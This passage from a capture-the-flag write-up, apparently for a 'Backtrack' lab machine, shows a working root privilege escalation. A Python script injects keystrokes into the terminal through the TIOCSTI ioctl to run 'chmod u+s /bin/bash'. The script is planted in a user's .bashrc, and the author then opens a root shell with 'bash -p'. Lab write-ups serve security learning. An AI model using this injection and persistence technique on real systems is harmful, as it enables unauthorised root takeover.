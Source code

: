 But it needs to get execute when root changes to orville user. To do that we write it in the `.bashrc` file.

```bash
echo 'python3 /home/orville/exploit.py' >> /home/orville/.bashrc
```

```terminal
orville@Backtrack:~$ pwd
/home/orville
orville@Backtrack:~$ vim exploit.py
orville@Backtrack:~$ cat exploit.py
import fcntl
import os
import termios

def inject_commands():
    command_sequence = "exit\n/bin/bash -c 'chmod u+s /bin/bash'\n"
    
    for char in command_sequence:
        try:
            ret = fcntl.ioctl(0, termios.TIOCSTI, char)
            if ret == -1:
                print("Error: ioctl()")
        except OSError as e:
            print(f"Error: ioctl() - {e}")

if __name__ == "__main__":
    inject_commands()

orville@Backtrack:~$ chmod +x exploit.py 
orville@Backtrack:~$ echo 'python3 /home/orville/exploit.py' >> /home/orville/.bashrc
orville@Backtrack:~$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
orville@Backtrack:~$ ls -l /bin/bash
```

Now we wait a little bit and check `/bin/bash` again, we find it has the suid bit

```terminal
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Now we run `/bin/bash -p` to get a root shell.

```terminal
orville@Backtrack:~$ /bin/bash -p
bash-5.0# cd /root
bash-5.0# whoami
root
bash-5.0# cat flag3.txt 

██████╗░░█████╗░░█████╗░██╗░░██╗████████╗██████╗░░█████╗░░█████╗░██╗░░██╗
██╔══██╗██╔══██╗██╔══██╗██║░██╔╝╚══██╔══╝██╔══██╗██╔══██╗██╔══██╗██║░██╔╝
██████╦╝███████║██║░░╚═╝█████═╝░░░░██║░░░██████╔╝███████║██║░░╚═╝█████═╝░
██╔══██╗██╔══██║██║░░██╗██╔═██╗░░░░██║░░░██╔══██╗██╔══██║██║░░██╗██╔═██╗░
██████╦╝██║░░██║╚█████╔╝██║░╚██╗░░░██║░░░██║░░██║██║░░██║╚█████╔╝██║░╚██╗
╚═════╝░╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░╚═╝╚═╝░░╚═╝░╚════╝░╚═╝░░╚═╝


```
